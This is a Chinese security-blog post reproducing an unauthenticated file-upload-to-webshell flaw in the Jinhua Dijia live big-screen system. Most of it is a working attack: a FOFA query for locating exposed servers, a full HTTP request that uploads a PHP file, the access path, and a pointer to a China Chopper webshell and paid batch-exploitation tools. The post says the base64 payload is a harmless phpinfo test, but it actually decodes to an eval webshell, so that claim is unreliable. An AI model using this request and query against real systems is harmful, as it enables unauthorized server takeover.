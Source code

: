#  【漏洞复现】金华迪加现场大屏系统存在任意文件上传getshell漏洞   
原创 清风  白帽攻防   2024-12-05 01:07  
  
## 免责声明：请勿使用本文中提到的技术进行非法测试或行为。使用本文中提供的信息或工具所造成的任何后果和损失由使用者自行承担，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
简介  
  
  
金华迪加现场大屏互动系统是一种创新的互动展示解决方案，融合了先进的技术与创意设计，旨在通过大屏幕与多种交互方式，打造沉浸式的观众体验。该系统广泛应用于各类活动、展览、会议等场所，能够有效提升现场氛围，增加参与感与互动性。金华迪加网络科技有限公司专注于现场互动系统平台的开发与优化，其主打产品——现场活动大屏幕系统，旨在为各类合作企业提供技术支持，提升活动的互动性和影响力。  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0cNxox3UJZdpKE5A5TyibLhoicjRF64zwPr7CSomCaUNm0Sm4Z7nticKUHjiaqWQvUWCMY8vDxTXYV9Vg/640?wx_fmt=png&from=appmsg "")  
漏洞描述  
  
  
  
金华迪加现场大屏互动系统中的mobile.do.php接口存在任意文件上传漏洞，攻击者可以未经身份验证利用该漏洞上传恶意文件（如WebShell），并执行任意代码，从而获取服务器的控制权限。  
fofa语法```
body="/wall/themes/meepo/assets/images/defaultbg.jpg" || title="现场活动大屏幕系统"
```  
漏洞复现```
POST /mobile/mobile.do.php?action=msg_uploadimg HTTP/2
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 59

filetype=php&imgbase64=PD9waHAgZXZhbCgkX1BPU1RbY21kXSk7Pz4=
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0cNxox3UJZdpKE5A5TyibLhoLYpjN6Ju733sw2rPVyHBIlBc5laIcgSceQ1rjhWfmicLSwiarrPVPdhA/640?wx_fmt=png&from=appmsg "")  
  
```
PD9waHAgZXZhbCgkX1BPU1RbY21kXSk7Pz4=  base64解码  <?php phpinfo();unlink(__FILE__);?>
访问上传的文件  https://IP/data/pic/pic_173314975432370.php
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0cNxox3UJZdpKE5A5TyibLhoY5ZDhqHURcicVsw0cXhMmcnpibYGvjibTLacsdnL3QWwgxn6RaoehPicyw/640?wx_fmt=png&from=appmsg "")  
  
```
上传shell，菜刀连接木马（详情见知识星球）
```  
  
  
批量检测（批量检测POC工具请在公众号知识星球获取）：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0cNxox3UJZdpKE5A5TyibLho44PXav8b0ORA6WY3WbIpdxWiaQzb7iaLasFytuODAapsoQ4sKW96Re1g/640?wx_fmt=png&from=appmsg "")  
修复建议  
打补丁  
  
  
  
  
  
  
  
  
网安交流群  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/yu6trpdUX0efFOzibVic3qjn100tFgpUIh7ib8g9cKajewKFM5kXP350q21SCLvlgO6yx1tlia8VYxI4j3cv57FqFg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
